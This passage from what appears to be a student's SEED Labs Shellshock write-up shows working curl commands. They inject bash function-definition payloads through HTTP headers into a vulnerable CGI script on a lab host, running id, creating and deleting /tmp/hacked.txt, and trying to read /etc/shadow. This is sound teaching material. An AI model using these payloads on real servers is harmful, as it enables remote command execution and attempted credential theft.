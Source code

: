 ```
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
[03/12/22]seed@VM:~/.../ssi$ 
```


#### Task 3.B

Then, execute the `id` command to check what is the user under our control. In this case `www-data`.

```bash
[03/12/22]seed@VM:~/.../ssi$ curl -H "Attack: () { echo hello; } ; echo Content_type: text/plain; echo; /bin/id" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[03/12/22]seed@VM:~/.../ssi$ 
```

#### Task 3.C

We then create a file named `hacked.txt` in the `/tmp` folder in the first Shellshock attack and in the second we check if the file was indeed created.

```bash
[03/12/22]seed@VM:~/.../ssi$ curl -H "Attack: () { echo hello; } ; echo Content_type: text/plain; echo; /bin/touch /tmp/hacked.txt" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
[03/12/22]seed@VM:~/.../ssi$ curl -H "Attack: () { echo hello; } ; echo Content_type: text/plain; echo; /bin/ls /tmp -l" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
total 0
-rw-r--r-- 1 www-data www-data 0 Mar 12 18:46 hacked.txt
[03/12/22]seed@VM:~/.../ssi$ 
```

#### Task 3.D

Finally, we removed the above created `hacked.txt` file and check if the removal was successful.

```bash
[03/12/22]seed@VM:~/.../ssi$ curl -H "Accept: () { echo hello; } ; echo Content_type: text/plain; echo; /bin/rm /tmp/hacked.txt" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
[03/12/22]seed@VM:~/.../ssi$ curl -H "Accept: () { echo hello; } ; echo Content_type: text/plain; echo; /bin/ls /tmp -l" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
total 0
[03/12/22]seed@VM:~/.../ssi$ 
```

#### Questions

**Question 1: Will you be able to steal the content of the shadow file /etc/shadow from the server? Why or why not?**

```bash
[03/12/22]seed@VM:~/.../ssi$ curl -H "Accept: () { echo hello; } ; echo Content_type: text/plain; echo; /bin/ls -l /etc/shadow" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
-rw-r----- 1 root shadow 501 Nov  6  2020 /etc/shadow
[03/12/22]seed@VM:~/.../ssi$ curl -H "Accept: () { echo hello; } ; echo Content_type: text/plain; echo; /bin/cat /etc/shadow 2>&1" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
/bin/cat: /etc/shadow: Permission denied
[03/12/22]seed@VM:~/.../ssi$ 
```
